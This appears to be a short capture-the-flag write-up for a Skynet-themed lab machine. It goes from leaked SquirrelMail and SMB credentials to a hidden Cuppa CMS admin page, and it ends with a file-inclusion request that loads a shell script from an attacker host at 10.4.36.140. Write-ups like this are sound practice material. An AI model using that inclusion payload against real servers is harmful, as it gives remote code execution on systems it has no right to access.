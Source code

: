 can login to squirrelmail using **milesdyson:cyborg007haloterminator**

new email with password saying 
```
)s{A&2Z=F^n_E.B` 
```
 can login to milesdyson smb share
inside notes folder there is a important.txt which contains
```
1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```

going to this page shows miles dyson

running through feroxbuster find administrator page

login page for cuppacms

cuppa cms has a LFI 

using 
```
/alerts/alertConfigField.php?urlConfig=http://10.4.36.140:8000/shell.txt?
```
gain a shell and get user flag **7ce5c2109a40f958099283600a9ae807**
